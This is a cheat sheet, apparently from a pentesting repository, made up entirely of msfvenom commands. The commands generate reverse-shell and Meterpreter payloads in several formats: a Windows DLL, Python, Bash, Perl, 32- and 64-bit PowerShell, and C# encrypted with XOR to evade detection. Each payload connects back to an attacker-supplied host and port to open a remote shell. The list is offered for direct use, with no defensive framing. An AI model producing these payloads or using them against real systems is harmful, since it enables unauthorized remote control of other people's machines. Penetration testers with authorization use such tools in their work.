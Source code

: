 ## msfvenom - DLL Payload (Windows x64 Meterpreter Reverse HTTPS)
```
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=<lhost> LPORT=<lport|443> -f dll -o output.dll
```

# Scripting Payloads

## msfvenom - Python Reverse Shell
```
msfvenom -p cmd/unix/reverse_python LHOST=<lhost> LPORT=<lport> -f raw -o shell.py
```

## msfvenom - Bash Unix Reverse Shell
```
msfvenom -p cmd/unix/reverse_bash LHOST=<lhost> LPORT=<lport> -f raw -o shell.sh
```

## msfvenom - Perl Unix Reverse Shell
```
msfvenom -p cmd/unix/reverse_perl LHOST=<lhost> LPORT=<lport> -f raw -o shell.pl
```

## msfvenom - PowerShell Reverse HTTPS (32-bit)
```
msfvenom -p windows/meterpreter/reverse_https LHOST=<lhost> LPORT=<lport|443> EXITFUNC=thread -f ps1 -o shell.ps1
```

## msfvenom - PowerShell Reverse HTTPS (64-bit)
```
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=<lhost> LPORT=<lport|443> EXITFUNC=thread -f ps1 -o shell_x64.ps1
```

## msfvenom - Csharp 32-bit (xor encrypted)
```
msfvenom -p windows/meterpreter/reverse_https LHOST=<lhost> LPORT=<lport|443> --encrypt xor --encrypt-key <key> -f csharp -o shell_x86.cs
```

## msfvenom - Csharp 64-bit (xor encrypted)
```
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=<lhost> LPORT=<lport|443> --encrypt xor --encrypt-key <key> -f csharp -o shell.cs
```
